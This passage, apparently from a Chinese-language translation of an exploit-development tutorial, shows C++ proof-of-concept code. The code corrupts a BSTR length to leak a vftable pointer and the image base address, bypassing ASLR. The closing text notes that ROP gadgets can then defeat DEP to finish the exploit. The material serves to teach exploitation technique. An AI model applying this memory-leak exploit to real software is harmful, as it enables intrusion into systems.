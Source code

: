 ```
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "CCCCDDDD"
    "xffx00x00x00";
  memcpy(allocations[2], evilString, sizeof(evilString));
  strSize = SysStringByteLen(bStrings[0]);
  printf("Modified String size: %dn", (int) strSize);

  std::wstring ws(bStrings[0], strSize);
  std::wstring ref = ws.substr(120+16, 4);
  char buf[4];
  memcpy(buf, ref.data(), 4);
  int refAddr = int((unsigned char)(buf[3]) &lt;&lt; 24 | (unsigned char)(buf[2]) &lt;&lt; 16 | (unsigned char)(buf[1]) &lt;&lt; 8 | (unsigned char)(buf[0]));
  memcpy(buf, (void*) refAddr, 4);
  int vftable = int((unsigned char)(buf[3]) &lt;&lt; 24 | (unsigned char)(buf[2]) &lt;&lt; 16 | (unsigned char)(buf[1]) &lt;&lt; 8 | (unsigned char)(buf[0]));
  printf("Found vftable address : 0x%08xn", vftable);
  int baseAddr = vftable - 0x0003a490;
  printf("====================================n");
  printf("Image base address is : 0x%08xn", baseAddr);
  printf("====================================n");

  system("PAUSE");

  return 0;
`}`
```

最后，让我们见证胜利的喜悦：

[![](https://blog.rapid7.com/content/images/2019/06/11.png)](https://blog.rapid7.com/content/images/2019/06/11.png)

### <a class="reference-link" name="%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E4%B9%8B%E5%90%8E"></a>信息泄露之后

通过泄漏vftable和基地址，此时利用应用程序就变得非常类似于ASLR之前的时代，只是你和shell之间的唯一东西就是DEP。你可以很容易地收集一些ROP小工具利用泄漏，击败DEP，并使exploit工作。
